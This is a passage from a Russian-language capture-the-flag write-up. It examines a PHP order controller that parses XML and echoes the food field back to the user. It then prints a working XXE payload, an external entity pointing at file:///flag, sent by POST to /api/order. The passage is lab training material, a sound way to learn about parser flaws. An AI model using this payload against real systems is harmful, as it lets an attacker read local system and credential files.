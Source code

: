 Посмотрим этот контроллер. Он работает с json и xml. Похоже нам действительно надо воспользоваться XXE.

![](imgs/owasp/5/order_controller.png)

Видим, что пользователю выводится order->food.

Воспользуемся XML инъекцией. Добавим к запросу POST ... /api/order (из index.php) пейлоуд:

    <!--?xml version="1.0" ?-->
    <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///flag"> ]>
    <order>
    <food>
    &ent;
    </food>
    </order>

![](imgs/owasp/5/post3.png)
